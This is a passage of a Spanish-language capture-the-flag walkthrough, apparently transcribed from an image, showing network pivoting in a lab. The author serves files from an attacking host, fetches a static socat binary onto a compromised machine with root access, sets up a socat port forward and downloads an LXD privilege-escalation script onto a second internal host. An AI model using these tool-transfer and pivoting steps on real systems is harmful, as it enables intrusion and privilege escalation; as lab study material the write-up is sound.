```bash
```

```bash
❯ bash build-alpine
```

```bash
❯ ls
 alpine-v3.17-x86_64-20230403_1455.tar.gz   build-alpine   lxd_prives.sh
```

Vamos a usar `sockat` para pasar los archivos

<https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat>

Ahora lo vamos a pasar ala maquina

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Lo pasamos ala maquina `solstice`

```bash
root@solstice:/tmp# wget http://192.168.1.94/socat
--2023-04-03 17:01:02--  http://192.168.1.94/socat
Connecting to 192.168.1.94:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 375176 (366K) [application/octet-stream]
Saving to: 'socat'

socat                           100%[=======================================================>] 366.38K  --.-KB/s    in 0.002s  

2023-04-03 17:01:02 (182 MB/s) - 'socat' saved [375176/375176]

root@solstice:/tmp# 
```

```bash
root@solstice:/tmp# chmod +x socat 
```

Esto es para poder descarganos lo que necesitamos para escalar privilegios para poder tener conexcion con la maquina Joestar

```bash
root@solstice:/tmp# ./socat TCP-LISTEN:4444,fork TCP:192.168.1.94:80
```

Nos lo descargamos de la maquina intermediaria

```bash
joestar@tank1:~$ wget http://10.10.0.128:4444/lxd_prives.sh
--2023-04-03 17:27:25--  http://10.10.0.128:4444/lxd_prives.sh
Connecting to 10.10.0.128:4444... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1451 (1.4K) [text/x-sh]
Saving to: 'lxd_prives.sh'

lxd_prives.sh                   100%[=======================================================>]   1.42K  --.-KB/s    in 0s      

2023-04-03 17:27:25 (180 MB/s) - 'lxd_prives.sh' saved [1451/1451]

joestar@tank1:~$ 
```
